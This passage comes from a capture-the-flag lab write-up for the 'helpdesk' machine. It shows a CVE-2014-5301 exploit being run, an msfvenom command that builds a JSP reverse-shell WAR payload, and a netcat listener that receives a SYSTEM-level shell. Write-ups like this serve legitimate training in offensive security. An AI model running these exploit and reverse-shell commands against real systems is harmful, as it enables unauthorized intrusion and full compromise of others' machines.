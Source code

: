 ┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/helpdesk]
└─$ python exploit.py
Usage: ./CVE-2014-5301.py HOST PORT USERNAME PASSWORD WARFILE

```
Alright, there are some requirements needed to make this exploit work. The only requirement we haven't satisfied will be the "WARFILE", lets go ahead and create one using msfvenom

>command:msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.18 LPORT=4444 -f war > runme.war

LHOST should be your machine's IP address while the LPORT should be the port you would want netcat to listen on

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/helpdesk]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.49.118 LPORT=4444 -f war > runme.war
Payload size: 1100 bytes
Final size of war file: 1100 bytes

```
Now that we've done that, lets try to run the exploit again, this time with the requirements

>command:python exploit.py 192.168.118.43 8080 administrator administrator runme.war

Ensure you set your netcat listener before running the command above

>command: rlwrap nc -nvlp 4444

![image](https://user-images.githubusercontent.com/67879936/222647017-a6872200-4dde-499b-ac90-70e2430e0355.png)

oops, I'm having issues here with my pc (not the exploit), so I asked another person to help run the exploit on his pc and he got a shell

![image](https://user-images.githubusercontent.com/67879936/222699807-d5cf8df2-90e6-4fb2-9acd-a4d20a991b75.png)

![image](https://user-images.githubusercontent.com/67879936/222699964-4307709d-f899-43f3-8f15-91f6c03a83a7.png)


So, when you try this from your end, you should get a reverse shell back to your netcat listner as ```nt authority\system```

That will be all for today
<br> <br>
[Back To Home](../../index.md)


















```